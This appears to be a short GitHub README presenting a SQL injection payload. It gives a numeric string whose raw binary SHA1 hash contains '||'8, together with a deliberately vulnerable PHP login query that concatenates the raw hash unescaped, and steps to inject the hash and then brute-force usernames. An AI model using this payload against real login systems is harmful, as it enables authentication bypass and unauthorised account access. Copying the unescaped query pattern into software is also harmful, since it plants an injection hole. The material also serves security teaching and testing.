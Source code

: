 # raw sha1 sql injection

| Hash string                | SHA1 Hash                                     | Raw output            |Query   |Author    |
| -------------------------- |:---------------------------------------------:|:---------------------:|:------:|:--------:|
| 5651578060603509           |96009c0bafe7be05e23b0079226f7222d82fee88       |E&�ɶ��'\|\|'8�vjc\�   |'\|\|'8 |0xJohannes|


#  EXAMPLE USAGE

```php
<?php

...SOME CODE...

function escape_sql()
  {
    ...sql escape...
  }
  
$pass = sha1($_POST['pass'], true);

$log = escape_sql($_POST['log']);

$sql = "select * from tablename where password=$pass AND username=$log";

...SOME CODE...
?>
```
* The first step is to inject one of suitable hashes.
* The second move is bruteforcing the login value i.e. (admin, 4dm1n and so on)
* The final step is buying me a coffee :D [![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/Wo30ewVvi)
